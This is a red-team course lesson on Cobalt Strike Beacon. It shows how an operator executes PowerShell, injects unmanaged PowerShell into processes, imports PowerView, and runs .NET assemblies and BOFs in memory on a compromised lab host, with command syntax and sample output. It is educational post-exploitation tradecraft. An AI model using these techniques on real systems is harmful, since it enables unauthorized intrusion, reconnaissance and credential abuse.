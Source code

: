 There are countless commercial and open source tooling that are useful to leverage during an engagement. Some notable examples include Seatbelt for local reconnaissance, PowerView for domain reconnaissance, Certipy & Certify for ADCS abuse, Rubeus for Kerberos abuse, and Impacket for lateral movement, credential dumping & relaying.  Some tools will need to be executed directly on a target and some can operate over a network.  This lesson will focus on the former.  

Beacon provides means to execute PowerShell scripts, .NET assemblies, and reflective DLLs, all in-memory to give as much flexibility as possible to the operator.

## powershell

There are three ways to execute PowerShell in Beacon. The first is with the `powershell` command.

```powershell
beacon> help powershell
Use: powershell [commandlet] [arguments]

Execute the command using powershell. Any cmdlets from the
last use of powershell-import are available here too.
```

This uses powershell.exe which makes it roughly equivalent to the `shell` command (which uses cmd.exe).

```powershell
beacon> powershell $env:computername
LON-WKSTN-1
```

The cmdlet and arguments that you specify are converted into an encoded command before execution.  So the command above is actually executed as: `powershell -nop -exec bypass -EncodedCommand JABlAG4AdgA6AGMAbwBtAHAAdQB0AGUAcgBuAGEAbQBlAA==`.  Operators can modify this behaviour using hooks in Aggressor script.

## powerpick

```powershell
beacon> help powerpick
Use: powerpick [commandlet] [arguments]
     powerpick "[PATCHES: [patch-rule] [patch-rule] [patch-rule] [patch-rule]]" [commandlet] [arguments]

Execute the command using Unmanaged PowerShell. Any cmdlets from the
last use of powershell-import are available here too.
```

This command uses an instance of unmanaged PowerShell, which taps into the underlying PowerShell APIs without relying on powershell.exe.  This is based on Lee Christensen's [UnmanagedPowerShell](https://github.com/leechristensen/UnmanagedPowerShell) project.  This is a fork and run command which starts Beacon's spawnto process, injects the unmanaged PowerShell DLL into it, and reads the output over a named pipe.

``` powershell
beacon> powerpick $env:computername
LON-WKSTN-1
```

## PsInject

```powershell
beacon> help psinject
Use: psinject [pid] [arch] [commandlet] [arguments]

Inject Unmanaged PowerShell into a specific process and execute the
specified command. Any cmdlets from the last use of powershell-import are 
available here too.
```

This works in the same way as `powerpick`, but allows operators to inject the unmanaged DLL into an existing process rather than spawning a new one.  This can be useful for running PowerShell scripts in the context of another user, assuming you have the privileges to inject into their processes.

```powershell
beacon> psinject 3020 x64 $PID
[*] Tasked beacon to psinject: $PID into 3020 (x64)

3020
```

## Importing PowerShell Scripts

To execute external PowerShell scripts, they must first be imported using the `powershell-import` command.

```powershell
beacon> help powershell-import
Use: powershell-import [/path/to/local/script.ps1]

Import a powershell script which is combined with future
calls to the powershell command. You may only use one
imported script at a time.
```

For example, to import PowerView, we would do:

```powershell
beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
```

> This is the local path on the machine running the Cobalt Strike client, **not** the target the Beacon is running on.

The content of the imported script is automatically imported into the PowerShell session when running `powershell`, `powerpick`, and `psinject`.  Beacon does this by hosting the script on a small built-in webserver, which is then fetched and imported during execution.

```powershell
beacon> powerpick Get-Domain

Forest                  : contoso.com
DomainControllers       : {lon-dc-1.contoso.com}
<SNIP>
```

> Beacon can only hold one imported script at a time.

## .NET

The `execute-assembly` command uses a reflective DLL to load and host the CLR (Command Language Runtime), and then executes a .NET assembly from memory.  Only .NET Framework assemblies are supported (i.e. no .NET/.NET Core).

```powershell
beacon> help execute-assembly
Use: execute-assembly [/path/to/file.exe] [arguments]
Use: execute-assembly "[PATCHES: [patch-rule] [patch-rule] [patch-rule] [patch-rule]]" [/path/to/file.exe] [arguments]

Executes a local .NET process assembly on target. This command loads the CLR in a temporary
process and loads the assembly into it. If the assembly is in the data store, this command will
use the loaded item automatically. For more information (help data-store).

beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe AntiVirus

====== AntiVirus ======

  Engine                         : Windows Defender
  ProductEXE                     : windowsdefender://
  ReportingEXE                   : %ProgramFiles%\Windows Defender\MsMpeng.exe

[*] Completed collection in 0.181 seconds
```

## BOFs

BOFs are tiny object files that can be loaded and executed by Beacon and can be executed using the `inline-execute` command.

```powershell
beacon> help inline-execute
Use: inline-execute [/path/to/file.o] [args]

Run a Beacon Object File in this Beacon session. A Beacon Object File is a 
C program, compiled as an object file, written to use conventions specified 
in the Cobalt Strike documentation. If the Beacon Object File is in the data
store, this command will use the loaded item automatically. For more
information (help data-store).
```

However, it's more common for BOF tooling to be wrapped in their own command aliases.  For example, TrustedSec's [Situational Awareness BOF project](https://github.com/trustedsec/CS-Situational-Awareness-BOF) contains multiple BOFs that are exposed via custom commands via the included Aggressor script.

For example, its `ipconfig` command acts as a replacement for running `shell ipconfig`.

```powershell
beacon> ipconfig

{8566281E-2B05-48AC-9D59-F18E427FCAB6}
	Ethernet
	Microsoft Hyper-V Network Adapter
	02-15-5D-10-BD-E0
	10.10.120.112
Hostname: 	lon-wkstn-1
DNS Suffix: 	contoso.com
DNS Server: 	10.10.120.1
```

Under the hood, the Aggressor script is running `beacon_inline_execute($1, readbof($1, "ipconfig", $null, "T1016"), "go", $null);`